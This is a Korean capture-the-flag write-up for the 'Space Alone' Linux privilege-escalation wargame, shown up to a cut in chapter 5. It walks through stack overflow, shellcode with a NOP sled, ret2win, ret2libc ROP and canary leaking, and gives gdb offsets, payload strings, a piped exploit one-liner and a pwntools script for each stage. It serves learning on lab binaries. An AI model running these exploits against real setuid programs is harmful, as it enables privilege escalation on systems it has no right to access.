## 들어가며

Space Alone은 리눅스 권한 상승을 단계별로 풀어 나가는 워게임이다. 각 챕터가 하나의 리눅스 계정에 대응하고 이전 계정에서 익스플로잇으로 다음 계정의 쉘을 얻어 올라가는 구조다. Knights Frontier 미션으로 풀게 됐는데 ch1부터 ch10까지 쉘코드, ROP, 포맷 스트링, 스택 피벗 같은 기법이 난이도 순으로 하나씩 더해져서, 시스템 해킹을 처음 공부하는 입장에서 기법을 차례로 익히기 좋았다.

### 실습 환경 세팅

Apple Silicon Mac이라 배포된 `SpaceAlone.ova`(VirtualBox용 x86-64)가 그대로 열리지 않았다. UTM을 에뮬레이트(Emulate) 모드로 써서 x86-64 VM을 띄웠다.

- OVA 압축 해제 후 `.vmdk`를 `qemu-img`로 `.qcow2`로 변환해 UTM에 "기존 드라이브 가져오기"로 연결했다.
- 부팅이 UEFI 셸로 빠져서, UEFI 부팅을 끄고 레거시(BIOS) 부팅으로 바꿨다.
- 디스플레이가 virtio-gpu라 화면이 안 떠서 표준 VGA로 바꿨다.
- 네트워크가 자동으로 안 잡혀(enp0s1 DOWN) 수동으로 올린 뒤, VM IP(192.168.64.x)로 SSH 접속했다.

### 게임 구조

각 챕터는 uid 501~511 계정에 대응한다. 진행 방식은 이렇다. 먼저 이전 계정에서 익스플로잇으로 다음 계정의 쉘을 얻는다. 그 쉘에서 `id`나 `status`를 치면 다음 챕터 비밀번호가 뜬다. 이 비밀번호를 확인한 뒤 원래 스테이지로 돌아가 `next`를 입력하면 비밀번호 입력창이 뜨는데 여기에 적으면 다음 챕터로 넘어간다.

| uid | 계정 | 챕터 |
|-----|------|------|
| 501 | The_Encrypted_Message | Ch1 |
| 502 | Decoding_for_Escape | Ch2 |
| 503 | Breaking_Through_for_Survival | Ch3 |
| 504 | Scavening_for_Survival | Ch4 |
| 505 | The_Alarm_of_Hope | Ch5 |
| 506 | Crisis_at_the_Vault | Ch6 |
| 507 | Wired_at_the_Vault | Ch7 |
| 508 | Awakening_in_the_Dark | Ch8 |
| 509 | On_the_Edge_of_Time | Ch9 |
| 510 | The_Cure_Within_Reach | Ch10 |
| 511 | epilogue | 엔딩 |

---

## Chapter 1 — MV

### 먼저 알아둘 개념 — 버퍼 오버플로우

프로그램이 입력을 받을 때 받을 공간(버퍼)보다 긴 값을 넣으면 그 공간을 넘어 바로 옆 메모리까지 덮어쓰게 된다. 이것을 버퍼 오버플로우라고 한다. 지역변수들은 스택에 연달아 놓여서 한 버퍼가 넘치면 옆 변수나 더 나아가 함수의 복귀 주소까지 바꿀 수 있다.

`scanf("%s", buf)`나 `gets(buf)`처럼 길이를 제한하지 않는 입력 함수가 대표적인 원인이다. 이 챕터는 그중 가장 단순한 형태라서 복귀 주소까지 가지 않고 바로 옆 변수 하나만 덮어 로그인 검사를 통과시킨다. 옆 변수를 덮는 것만으로 공격이 되는 건 그 변수 값이 검사에 쓰이기 때문인데 이렇게 오버플로우를 프로그램 로직과 엮은 것을 로직 취약점이라고 한다.

### 1. 대상 분석

**코드 확인**



```c
int main(){
    int cmp1=3, cmp2=3, cmp3=3, cmp4=3;
    char admin[10] = "deny", id_input[20], pw_input[20];

    scanf("%s", id_input);                      // 길이 제한 없음 → 오버플로우
    scanf("%s", pw_input);

    cmp3 = strncmp(id_input, "admin", 5);       // ID가 "admin"으로 시작?
    cmp4 = strncmp(admin, "confirm", 7);        // admin 변수 == "confirm"?
    if(cmp3==0 && cmp4==0){ root(); }           // admin 분기 ← 목표
}
void root(){ /* 메뉴 2 */ file_read(".TOP_SECRET"); }   // 다음 챕터 비번
```

`admin`은 `"deny"`로 고정돼 있어 정상 입력으로는 cmp4를 만족시킬 수 없다. 하지만 `scanf("%s", id_input)`에 길이 제한이 없어, id_input을 넘치게 넣으면 바로 뒤의 `admin` 변수까지 덮을 수 있다.

**보호기법 확인 (checksec)**



`checksec`은 바이너리에 어떤 보호 기법(카나리, NX, PIE 등)이 걸려 있는지 보여주는 도구다(pwntools에 딸려 온다). 여기서는 NX·PIE·CET가 켜져 있지만, 이번 공격은 복귀 주소나 절대 주소를 전혀 쓰지 않고 변수 하나만 덮는 것이라 이 보호 기법들에 걸리지 않는다. 보호 기법이 많아도 공격이 그걸 건드리지 않으면 무용지물이라는 점을 보여주는 챕터다.

### 2. Exploit 아이디어

관리자 페이지 `root()`에 들어가려면 `cmp3`과 `cmp4`가 둘 다 0이어야 한다. cmp3은 입력한 ID가 "admin"으로 시작하는지, cmp4는 `admin` 변수가 "confirm"인지를 본다. 그런데 `admin`은 "deny"로 고정돼 있어 정상 입력으로는 cmp4를 만족시킬 수 없다.

여기서 `scanf("%s", ...)`에 길이 제한이 없다는 점을 이용한다. ID를 버퍼보다 길게 넣으면 바로 뒤의 `admin` 변수까지 덮을 수 있으므로(버퍼 오버플로우), ID를 "admin"으로 시작하게 해 cmp3을 통과시키면서 뒤쪽으로 `admin` 변수를 "confirm"으로 덮어 cmp4까지 만족시킨다.

### 3. 필요한 정보 확인



버퍼와 `admin` 변수 사이 거리를 알아야 "confirm"을 정확히 그 위치에 놓을 수 있다. 이런 메모리 위치는 gdb라는 디버거로 확인한다. `disass main`으로 함수를 어셈블리로 풀어 보면, 각 변수에 접근하는 명령의 `rbp-0x..` 오프셋이 보여 두 변수의 거리를 계산할 수 있다.

- `id_input`: `rbp-0x30` (첫 번째 scanf의 `lea rax,[rbp-0x30]`).
- `admin`: `rbp-0x1a` (`mov QWORD [rbp-0x1a],0x796e6564` → 리틀엔디안 `d e n y`).
- 거리: `0x30 - 0x1a = 0x16 = 22바이트`. 즉 id_input 시작부터 22바이트 뒤가 `admin` 변수다.

### 4. Exploit

ID 입력칸에 다음을 넣는다. 앞 5바이트로 cmp3(“admin”으로 시작)을 통과시키면서, 22바이트 뒤 `admin` 변수 자리에 "confirm"을 얹어 cmp4까지 만족시킨다.

```
"admin" + "A"*17 + "confirm"
  └5┘      └17┘      └7┘
```

- `admin`(5) → cmp3 충족
- `A`*17 → 22까지 패딩 (22 − 5 = 17)
- `confirm`(7) → 오프셋 22 지점 = `admin` 변수를 덮어 cmp4 충족
- PASSWORD 칸은 아무 값(`aaaa`)이나 넣는다. pw_input은 id_input보다 낮은 주소라 건드리지 않는다.



### 5. 클리어

`Redirect to Admin page`가 뜨면 ADMIN 메뉴 2번으로 `.TOP_SECRET`을 출력시킨다. 여기 적힌 값이 Chapter 2 비밀번호다.



---

## Chapter 2 — File_Decoder

### 먼저 알아둘 개념 — 쉘코드, NX, ASLR

이번엔 옆 변수가 아니라 복귀 주소를 덮는다. 함수가 끝나면 복귀 주소로 돌아가는데 이걸 내가 원하는 주소로 바꾸면 실행 흐름을 통째로 가져올 수 있다(제어 흐름 탈취). 다만 이 바이너리에는 셸을 띄워 줄 코드가 없어서 셸을 실행하는 기계어를 직접 입력에 실어 보낸다. 이 기계어 조각을 쉘코드라고 한다.

쉘코드를 실행하려면 두 가지를 넘어야 한다.

- **NX(No-eXecute):** 스택처럼 데이터가 놓이는 영역에서는 코드 실행을 막는 보호 기법이다. 이 바이너리는 NX가 꺼져 있어서(스택이 RWX) 스택에 올린 쉘코드가 그대로 실행된다.
- **ASLR:** 실행할 때마다 스택·라이브러리 주소를 무작위로 바꿔서 "어디로 점프하라"를 고정값으로 못 쓰게 하는 보호 기법이다. 쉘코드가 올라가는 스택 주소가 매번 달라지는 것이 이 챕터의 진짜 걸림돌이다. 여기서는 `setarch -R`로 그 실행만 ASLR을 끄고 고정 주소로 맞춘다. 아무것도 안 하는 명령 `NOP`를 길게 깔아 두는 "NOP 썰매"도 같이 쓰는데 복귀 주소가 그 범위 어딘가만 맞으면 미끄러져 쉘코드로 진입한다.

### 1. 대상 분석

**코드 확인**



```c
char srl[30] = "3t267s77wh2djfi3mid2od2o329dw";   // 정답 시리얼 (미끼 경로)

int main(){
    char serial[256] = {0, };
    gets(serial);                      // ← 취약점: 길이 제한 없는 스택 BOF

    if(strlen(serial)==29 && strcmp(serial, srl)==0)
        print_file();                  // 정상 경로 = 미끼 (다음 비번 아님)
    return 0;
}
```

`strlen==29 && strcmp` 통과 경로는 미끼다. 통과해도 `print_file()`은 스토리 파일만 출력할 뿐 다음 비번이 아니다. 진짜 공략은 `gets(serial)`의 오버플로우로 복귀 주소를 덮어 쉘코드로 점프시키는 것이다.

**보호기법 확인 (checksec)**



32비트, NX 꺼짐(스택 실행 가능, RWX), 카나리 없음, No PIE. 단 ASLR은 켜져 있다(`randomize_va_space=2`). NX가 꺼져 있으므로 스택에 올린 쉘코드를 그대로 실행할 수 있다.

### 2. Exploit 아이디어

`gets(serial)`은 입력 길이를 제한하지 않아 스택 버퍼 오버플로우가 난다. 이 바이너리는 setuid라, 복귀 주소를 덮어 내가 넣은 쉘코드로 점프시키면 다음 단계 권한의 쉘을 얻는다.

페이로드는 `[A 268][복귀주소][NOP 썰매][쉘코드]`로 구성한다. 쉘코드를 복귀 주소보다 높은 주소에 둬서, 함수 진입 시 push 연산이 쉘코드를 건드리지 않게 한다.

### 3. 필요한 정보 확인

오프셋은 268바이트다. gdb에서 `A*268 + BBBB`를 넣어 EIP가 0x42424242로 덮이는 것으로 확인했다.



ASLR이 켜져 있어 스택 주소가 매 실행마다 바뀌므로 고정 주소는 그대로 쓸 수 없다. 따라서 `setarch -R`로 해당 실행의 ASLR을 끄고, 복귀 주소를 0xffffd300~d900 범위로 쓸어 쉘코드 위치를 맞춘다(0xffffd4c0에서 적중).

### 4. Exploit

쉘코드는 `setreuid(euid,euid)` 뒤에 `execve("/bin/sh")`를 실행하도록 짠다(setuid 권한을 유지하려고 setreuid를 먼저 넣는다). `gets`는 개행(`0x0a`)까지 읽으므로 페이로드에 `0x0a`가 들어가면 안 된다.

```
[ "A"*268 ][ 복귀주소 ][ NOP 썰매 ][ 쉘코드 ]
```

- 복귀 주소를 NOP 썰매 어딘가로 두면 미끄러져 쉘코드로 진입한다.
- 쉘코드를 복귀 주소보다 높은 주소에 둬서, 함수 진입 시 `push`가 쉘코드를 덮지 않게 한다.
- `setarch -R ./File_Decoder`로 그 실행만 ASLR을 끄고, 복귀 주소를 `0xffffd300~d900` 범위로 쓸어 쉘코드 위치를 맞춘다(0xffffd4c0에서 적중).

### 5. 클리어



Breaking_Through_for_Survival(uid 503) 쉘을 얻고 `status`로 다음 챕터 비밀번호를 확보했다.

---

## Chapter 3 — stage3

### 먼저 알아둘 개념 — ret2win과 No PIE

ch2는 쉘코드를 직접 넣었지만 바이너리 안에 이미 `system("/bin/sh")`를 실행하는 함수가 들어 있는데 호출만 안 되는 경우가 있다. 이럴 땐 복귀 주소를 그 함수 주소로 덮어 점프시키면 된다. 이미 있는 "이기는 함수"로 돌려보낸다고 해서 ret2win이라고 한다. 쉘코드를 짤 필요도 NX를 신경 쓸 필요도 없다.

대신 그 함수의 주소를 알아야 하는데 여기서 PIE가 중요하다. PIE가 켜져 있으면 실행할 때마다 코드가 올라가는 주소까지 무작위가 되지만 꺼져 있으면(No PIE) 코드가 항상 같은 주소에 올라가 함수 주소가 고정된다. 이 바이너리는 No PIE라서 gdb로 한 번 확인한 `shell()` 주소를 그대로 쓸 수 있고 ASLR도 신경 쓸 필요가 없다. PIE가 켜진 경우는 Chapter 10에서 다룬다.

### 1. 대상 분석

**코드 확인**



```c
void shell(){                       // 메뉴 어디서도 호출 안 됨 (도달 불가)
    system("/bin/sh");              // ← 목표: 여기로 점프
}
void Open_Door(){                   // 메뉴 [5]
    char password[20];
    scanf("%s", password);          // ← 취약점: 길이 제한 없는 스택 BOF
}
```

`shell()`에 `system("/bin/sh")`가 있지만 메뉴 분기 어디에서도 호출되지 않아 정상 실행으로는 도달할 수 없다. 메뉴 `[5]`로 들어가는 `Open_Door()`의 `scanf`가 길이 제한이 없으니, 복귀 주소를 `shell()` 주소로 덮어 강제로 점프시킨다(ret2win).

**보호기법 확인 (checksec)**



### 2. Exploit 아이디어

메뉴 5번으로 들어가는 `Open_Door()` 안 `scanf("%s", password)`는 버퍼가 20바이트인데 길이 제한이 없어 오버플로우가 난다. 그리고 소스에 `system("/bin/sh")`를 담은 `shell()` 함수가 있는데 메뉴 어디에서도 호출되지 않는다. 복귀 주소를 이 shell() 함수 주소로 덮어 점프시킨다(ret2win).

Chapter 2와 달리 쉘코드를 직접 짤 필요가 없고, No PIE라 함수 주소가 고정이라 ASLR을 신경 쓰지 않아도 된다.

### 3. 필요한 정보 확인

- shell() 주소: gdb `disassemble shell`의 `<+0>` 줄 = 0x080491a6.
- 오프셋: `disassemble Open_Door`에서 scanf에 넘기는 버퍼가 `[ebp-0x18]` → 0x18(24) + 저장된 ebp 4 = 28.



### 4. Exploit

메뉴 5를 먼저 보내야 `Open_Door`로 진입한다. 페이로드는 `"A"*28 + p32(0x080491a6)`.

```bash
(python3 -c 'import sys; sys.stdout.buffer.write(b"5\n" + b"A"*28 + b"\xa6\x91\x04\x08" + b"\n")'; cat) | ./stage3
```

끝의 `; cat`은 쉘이 뜬 뒤 키보드 입력을 유지하기 위한 것이다(없으면 EOF로 닫힌다).

### 5. 클리어



`You Open the Armory Door!`가 출력되고 uid 504(Scavening_for_Survival) 쉘을 얻었다.

---

## Chapter 4 — stage4

### 먼저 알아둘 개념 — ROP와 ret2libc (그리고 64비트)

여기서 난이도가 한 단계 오른다. 세 가지가 처음 나온다.

- **64비트 호출 규약:** 32비트는 함수 인자를 스택으로 넘겼지만 64비트는 앞쪽 인자를 레지스터(rdi, rsi, …)로 넘긴다. 그래서 `system("/bin/sh")`를 부르려면 먼저 rdi에 "/bin/sh" 주소를 넣어야 한다.
- **ROP와 가젯:** 스택 오버플로우로는 스택 값만 바꿀 수 있는데 레지스터를 세팅하려면 `pop rdi; ret`처럼 이미 바이너리 안에 있는 짧은 명령 조각을 끌어다 쓴다. 이 조각을 가젯이라고 하고 가젯 여러 개를 이어 붙여 원하는 동작을 만드는 것을 ROP(Return-Oriented Programming)라고 한다.
- **ret2libc:** 셸을 띄울 함수가 없을 때 거의 모든 프로그램이 쓰는 라이브러리 libc 안의 `system`을 직접 부르는 방법이다. 문제는 libc가 ASLR로 매번 다른 주소에 올라간다는 것인데 libc는 통째로 올라가서 함수끼리의 거리(offset)는 고정이라 주소 하나만 알면 나머지를 역산할 수 있다. 이 챕터는 메뉴가 알려주는 `read` 주소로 libc의 기준 주소(base)를 구한다.

도구로는 익스플로잇을 pwntools라는 파이썬 라이브러리로 짠다. `ELF`로 바이너리·라이브러리의 심볼 주소를 읽고 `p64`로 주소를 8바이트로 포장해 페이로드를 만들고 `process`로 프로그램을 실행해 입출력을 주고받는다.

### 1. 대상 분석

**코드 확인**



```c
char MasterKey[16] = "/bin/sh";     // "/bin/sh" 문자열 (바이너리 고정)

void gadget(){                       // ROP 가젯 공급 (정상 흐름엔 호출 안 됨)
    asm("pop %rdi; ret");
    asm("pop %rsi; pop %r15; ret");
}
int main(){
    char buf[0x40] = {};
    if(select == 2){
        printf("... %p\n", &read);   // ← read 주소 leak (libc read 실제 주소)
        read(0, buf, 0x400);         // ← 취약점: buf[0x40]에 0x400 → 오버플로우
    }
}
```

셸을 띄울 함수가 아예 없어서 libc의 `system("/bin/sh")`를 ROP로 직접 조립해야 한다. 메뉴 2가 노출하는 `read` 주소로 libc base를 역산하고, `MasterKey`("/bin/sh")와 `gadget()`의 `pop rdi; ret`을 재료로 쓴다.

**보호기법 확인 (checksec)**



### 2. Exploit 아이디어

`char buf[0x40]`에 `read(0, buf, 0x400)`을 해서 64바이트 버퍼에 1024바이트까지 읽어 오버플로우가 난다. 이번엔 쉘을 띄워 주는 함수가 통째로 없어서, libc에 있는 `system("/bin/sh")`를 직접 조립해야 한다(ret2libc).

풀어야 할 조건이 두 가지다.

- system()은 libc 안에 있고 libc는 ASLR로 매번 주소가 바뀐다. 그래서 메뉴 2가 노출하는 `read`의 실제 주소를 이용한다. libc는 통째로 올라가 함수끼리의 거리(offset)가 고정이므로, `노출된 read 주소 − read offset = libc base`, `base + system offset = system 주소`로 계산한다.
- 64비트는 함수 인자를 레지스터로 넘기므로 rdi에 "/bin/sh" 주소가 있어야 한다. `pop rdi; ret` 가젯으로 rdi를 세팅한다.
- 또한 system 내부의 movaps 명령이 스택 16바이트 정렬을 요구한다. 그래서 체인 맨 앞에 단독 `ret` 가젯을 하나 넣어 스택을 8바이트 밀어 정렬을 맞춘다.

### 3. 필요한 정보 확인

- 오프셋: buf가 `rbp-0x50` → 0x50(80) + 저장된 rbp 8 = 88.
- `pop rdi; ret` 가젯: gdb `disass gadget` → 0x401215.
- 단독 `ret` 가젯: 0x401216.
- "/bin/sh"(MasterKey): gdb `p &MasterKey` → 0x404050.
- libc: `ldd ./stage4` → /lib/x86_64-linux-gnu/libc.so.6. system 주소는 스크립트에서 read leak으로 계산.





### 4. Exploit

메뉴 2로 read 주소를 받아 libc base를 역산한 뒤, 정렬용 `ret` → `pop rdi` → "/bin/sh" → `system` 순으로 체인을 올린다.

```python
p.sendlineafter(b'stand : ', b'2')             # 메뉴 2
p.recvuntil(b'warehouse : ')
leak = int(p.recvline().strip(), 16)           # 노출된 read 주소
libc.address = leak - libc.symbols['read']     # libc base 역산
system = libc.symbols['system']

payload  = b'A'*88
payload += p64(0x401216)                        # ret (스택 16B 정렬 보정)
payload += p64(0x401215) + p64(0x404050)        # pop rdi; ret → "/bin/sh"
payload += p64(system)                          # system("/bin/sh")
p.send(payload)
```

`system` 내부의 `movaps`가 스택 16바이트 정렬을 요구하므로, 체인 맨 앞에 단독 `ret` 가젯을 하나 넣어 정렬을 맞춘다.

### 5. 클리어

노출된 read 주소(`0x7f…`)로 libc base를 역산하고 system을 계산해 체인을 보내면 셸이 떨어진다. `status`로 Chapter 5 비밀번호(`i_gROPed_for_food_in_the_dark`)를 확인한다.



---

## Chapter 5 — The_Alarm_of_Hope

### 먼저 알아둘 개념 — 스택 카나리

Chapter 1~4에서는 버퍼 오버플로우로 함수의 복귀 주소(함수가 끝나고 돌아갈 주소)를 덮어 실행 흐름을 원하는 곳으로 바꿨다. 컴파일러는 이런 스택 오버플로우를 잡아내려고 스택 카나리(stack canary)라는 장치를 넣는다.

카나리는 함수가 시작할 때 지역변수들과 복귀 주소 사이에 심어 두는 8바이트 랜덤 값이다. 함수가 끝나기 직전에 이 값이 처음 그대로인지 확인하고 바뀌어 있으면(버퍼가 넘쳐 이 자리까지 덮였으면) 공격으로 보고 `__stack_chk_fail`을 불러 프로그램을 즉시 종료한다. 옛날 광산에서 유독가스를 먼저 감지하던 카나리 새에서 따온 이름이다.

그래서 카나리가 있으면 복귀 주소로 가는 길목에 반드시 카나리가 놓여서 그 값을 건드리지 않고는 지나갈 수가 없다. 뚫으려면 카나리 값을 먼저 알아내고(leak) 덮을 때 그 값을 그대로 다시 써 넣어 검사를 통과시켜야 한다. 이 챕터의 핵심은 그 값을 어떻게 흘려 읽느냐다.

> `checksec`에서는 `Canary found`로 보이고, gdb로 함수를 뜯어보면 `mov rax, fs:0x28` → `mov [rbp-0x8], rax`로 카나리를 심는 코드가 보인다(`fs:0x28`이 그 랜덤 값이 저장된 자리다).



### 1. 대상 분석

**코드 확인**



```c
struct auth { char username[50]; char passwd[50]; };   // 100바이트
struct auth *auth = malloc(sizeof(struct auth));        // auth는 포인터

char username[50], passwd[50];
read(0, username, sizeof(struct auth));   // 길이로 sizeof(struct auth)=100을 씀
read(0, passwd,   sizeof(struct auth));   // → [50] 버퍼에 100바이트 = 오버플로우

strncmp(passwd, auth->passwd, sizeof(auth))   // sizeof(auth)=8(포인터) → 8바이트만 비교
```

입력 길이로 `sizeof(struct auth)`(=100)를 쓰는데 받는 버퍼는 `[50]`이라, 50바이트 버퍼에 100바이트가 들어가 스택 오버플로우가 난다. 로그인을 담당하는 `IPS()`는 `while(count < 3)` 안에서 입력을 받아, 최대 세 번까지 시도할 수 있다. 이 세 번을 나눠 쓰는 것이 이번 풀이의 뼈대다.

**보호기법 확인 (checksec)**



`checksec`은 바이너리에 어떤 보호 기법이 걸려 있는지 한눈에 보여주는 도구다(pwntools에 딸려 온다). 결과를 보면 64비트, No PIE라 함수 주소는 고정이고, 이번엔 Canary가 켜져 있다(NX도 켜짐). 카나리 때문에 단순 오버플로우로는 복귀 주소를 덮을 수 없다.

### 2. Exploit 아이디어

카나리를 넘으려면 그 값을 알아야 하는데, 카나리는 랜덤이라 미리 알 수는 없다. 대신 흘려 읽을(leak) 구멍이 있다.

`IPS()`는 입력받은 username을 `printf("... %s", username)`로 다시 출력한다. `%s`는 널 바이트(`\x00`)를 만나면 거기서 멈추는데, 카나리의 가장 낮은 바이트는 항상 `\x00`이다. 그래서 평소에는 출력이 카나리 앞에서 끊긴다. 여기서 그 `\x00` 자리까지 입력으로 꽉 채워 덮으면, 출력이 카나리 안쪽으로 흘러 나머지 7바이트가 그대로 찍힌다. 맨 아래 `\x00` 한 바이트는 원래 그런 것임을 아니까 앞에 붙여서 8바이트 카나리를 복원한다.

세 번의 로그인 시도를 이렇게 나눠 쓴다.

- 1번째: 카나리를 흘려 읽는다. (어차피 실패할 시도라 카나리가 깨져도 상관없다. 검사는 함수가 끝날 때 하기 때문이다.)
- 2번째: 일부러 실패시켜 count를 2로 만든다. 세 번째가 마지막 시도가 되게 하기 위해서다.
- 3번째: 복귀 주소를 덮는다. 카나리 자리에는 1번째에서 읽어 둔 값을 그대로 넣어 검사를 통과시키고, 복귀 주소를 인증 성공 분기(`return 0`)로 돌린다.

### 3. 필요한 정보 확인

